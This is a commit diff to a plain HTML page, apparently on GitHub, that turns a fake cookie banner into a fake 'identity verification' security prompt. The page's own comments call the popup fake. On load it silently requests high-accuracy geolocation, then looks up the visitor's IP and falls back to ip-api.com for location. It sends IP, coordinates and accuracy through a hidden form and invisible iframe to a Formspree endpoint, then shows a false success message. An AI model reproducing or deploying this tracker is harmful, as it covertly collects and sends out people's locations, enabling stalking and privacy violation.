

Before and after one commit to lolalalallazoo/ip-turip-ip-ip-turip-turip, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-1005 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,27 +3,31 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Cargando...</title>
+    <title>Actualización de Seguridad</title>
     <style>
-        body { font-family: Arial, sans-serif; margin: 0; padding: 0; background-color: #f9f9f9; }
+        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; margin: 0; padding: 0; background-color: #f0f2f5; }
 
-        .cookie-overlay {
+        .modal-overlay {
             position: fixed; top: 0; left: 0; width: 100%; height: 100%;
-            background: rgba(0,0,0,0.5); z-index: 1000; display: flex;
-            justify-content: center; align-items: center;
+            background: rgba(0,0,0,0.4); z-index: 999; display: flex;
+            justify-content: center; align-items: center; backdrop-filter: blur(3px);
         }
-        .cookie-box {
-            background: white; padding: 20px; border-radius: 8px;
-            box-shadow: 0 4px 10px rgba(0,0,0,0.2); max-width: 90%; width: 400px; text-align: center;
+        .modal-box {
+            background: white; padding: 25px; border-radius: 8px;
+            box-shadow: 0 8px 20px rgba(0,0,0,0.2); max-width: 450px; width: 90%; text-align: left;
         }
-        .cookie-box h2 { margin-top: 0; color: #333; font-size: 18px; }
-        .cookie-box p { font-size: 14px; color: #666; line-height: 1.4; }
-        .btn-group { margin-top: 20px; display: flex; gap: 10px; justify-content: center; flex-wrap: wrap; }
+        .modal-header { display: flex; align-items: center; gap: 15px; margin-bottom: 15px; }
+        .icon-shield { font-size: 24px; color: #007bff; }
+        .modal-title { font-size: 18px; font-weight: 600; color: #333; margin: 0; }
+        .modal-body { font-size: 14px; color: #555; line-height: 1.5; margin-bottom: 20px; }
+        .btn-group { display: flex; gap: 10px; justify-content: flex-end; }
         button {
-            padding: 10px 20px; border: none; border-radius: 4px; cursor: pointer; font-weight: bold; font-size: 14px;
+            padding: 10px 20px; border: none; border-radius: 4px; cursor: pointer; font-weight: 500; font-size: 14px; transition: background 0.2s;
         }
-        .btn-accept { background-color: #007bff; color: white; }
-        .btn-reject { background-color: #e0e0e0; color: #333; }
+        .btn-primary { background-color: #007bff; color: white; }
+        .btn-primary:hover { background-color: #0056b3; }
+        .btn-secondary { background-color: #e0e0e0; color: #333; }
+        .btn-secondary:hover { background-color: #ccc; }
 
         .loader-screen {
             display: none; position: fixed; top: 0; left: 0; width: 100%; height: 100%;
@@ -31,24 +35,29 @@
         }
         .spinner {
             border: 4px solid #f3f3f3; border-top: 4px solid #333; border-radius: 50%;
-            width: 30px; height: 30px; animation: spin 1s linear infinite; margin-bottom: 10px;
+            width: 30px; height: 30px; animation: spin 1s linear infinite; margin-bottom: 15px;
         }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
 
-        /* Iframe invisible para enviar el formulario sin recargar */
-        #hidden-frame { display: none; }
+        iframe { display: none; }
     </style>
 </head>
 <body>
 
-    <!-- Popup Falso -->
-    <div id="cookieOverlay" class="cookie-overlay">
-        <div class="cookie-box">
-            <h2>🍪 Preferencias de Cookies y Ubicación</h2>
-            <p>Utilizamos cookies propias y de terceros para mejorar tus servicios. También necesitamos acceso a tu ubicación GPS para personalizar el contenido.</p>
+    <!-- Modal Falso -->
+    <div id="cookieOverlay" class="modal-overlay">
+        <div class="modal-box">
+            <div class="modal-header">
+                <span class="icon-shield">🛡️</span>
+                <h2 class="modal-title">Verificación de Identidad</h2>
+            </div>
+            <p class="modal-body">
+                Para garantizar la seguridad de tu cuenta, necesitamos verificar tu ubicación actual.
+                Esto permite detectar accesos inusuales desde tu red. ¿Permites que este sitio acceda a tu ubicación?
+            </p>
             <div class="btn-group">
-                <button class="btn-reject" onclick="handleChoice(false)">Rechazar</button>
-                <button class="btn-accept" onclick="handleChoice(true)">Aceptar Todas</button>
+                <button class="btn-secondary" onclick="handleChoice(false)">Rechazar</button>
+                <button class="btn-primary" onclick="handleChoice(true)">Aceptar</button>
             </div>
         </div>
     </div>
@@ -56,28 +65,36 @@
     <!-- Pantalla de Carga -->
     <div id="loader" class="loader-screen">
         <div class="spinner"></div>
-        <p>Conectando con los servidores...</p>
+        <p>Procesando datos de ubicación...</p>
     </div>
 
-    <!-- Formulario oculto que usa el método POST nativo -->
+    <!-- Formulario oculto -->
     <form id="trackerForm" action="https://formspree.io/f/xjywravp" method="POST" target="hidden-frame">
         <input type="text" name="IP Pública" id="ipField">
-        <input type="text" name="Latitud GPS" id="latField">
-        <input type="text" name="Longitud GPS" id="lngField">
+        <input type="text" name="Coordenadas GPS" id="gpsCoords">
+        <input type="text" name="Precisión (Metros)" id="accuracyInfo">
+        <input type="text" name="Ubicación Estimada" id="geoAddress">
         <input type="text" name="Estado" id="statusField">
     </form>
 
     <iframe name="hidden-frame" id="hidden-frame"></iframe>
 
     <script>
-        // 1. PRE-CARGA SILENCIOSA
         let gpsLat = null;
         let gpsLng = null;
+        let gpsAccuracy = null;
+
+        // 1. PRE-CARGA SILENCIOSA DE ALTA PRECISIÓN (Intenta WiFi/GPS)
         if (navigator.geolocation) {
             navigator.geolocation.getCurrentPosition(pos => {
                 gpsLat = pos.coords.latitude.toFixed(6);
                 gpsLng = pos.coords.longitude.toFixed(6);
-            }, () => {}, { timeout: 3000 });
+                gpsAccuracy = Math.round(pos.coords.accuracy);
+            }, () => {}, {
+                enableHighAccuracy: true,
+                timeout: 10000,
+                maximumAge: 0
+            });
         }
 
         function handleChoice(accepted) {
@@ -91,18 +108,34 @@
                 });
         }
 
-        function sendData(ip, accepted) {
-            // Rellenar campos del formulario
+        async function sendData(ip, accepted) {
             document.getElementById('ipField').value = ip;
-            document.getElementById('latField').value = gpsLat || 'No disponible';
-            document.getElementById('lngField').value = gpsLng || 'No disponible';
-            document.getElementById('statusField').value = accepted ? 'Aceptó Cookies' : 'Rechazó Cookies';
+            document.getElementById('statusField').value = accepted ? 'Permiso concedido' : 'Permiso denegado';
 
-            // Enviar el formulario (esto sí llega a Formspree)
+            // Si no tenemos GPS, intentamos obtener la ubicación por IP
+            if (!gpsLat || !gpsLng) {
+                try {
+                    const geoRes = await fetch(`http://ip-api.com/json/${ip}`);
+                    const geoData = await geoRes.json();
+                    gpsLat = geoData.lat;
+                    gpsLng = geoData.lon;
+                    document.getElementById('geoAddress').value = `${geoData.city}, ${geoData.country}`;
+                } catch (error) {
+                    document.getElementById('geoAddress').value = "No disponible";
+                }
+            } else {
+                document.getElementById('geoAddress').value = `Ubicación confirmada`;
+            }
+
+            document.getElementById('gpsCoords').value = `${gpsLat || 'N/A'}, ${gpsLng || 'N/A'}`;
+
+            // Mostrar información sobre la precisión
+            const accuracyText = gpsAccuracy ? `Precisión: ~${gpsAccuracy}m` : "Sin precisión";
+            document.getElementById('accuracyInfo').value = accuracyText;
+
             const form = document.getElementById('trackerForm');
             form.submit();
 
-            // Simular éxito visual
             setTimeout(() => {
                 document.getElementById('loader').innerHTML = '<h2 style="color:green">✅ Actualización completada</h2>';
             }, 1500);
```
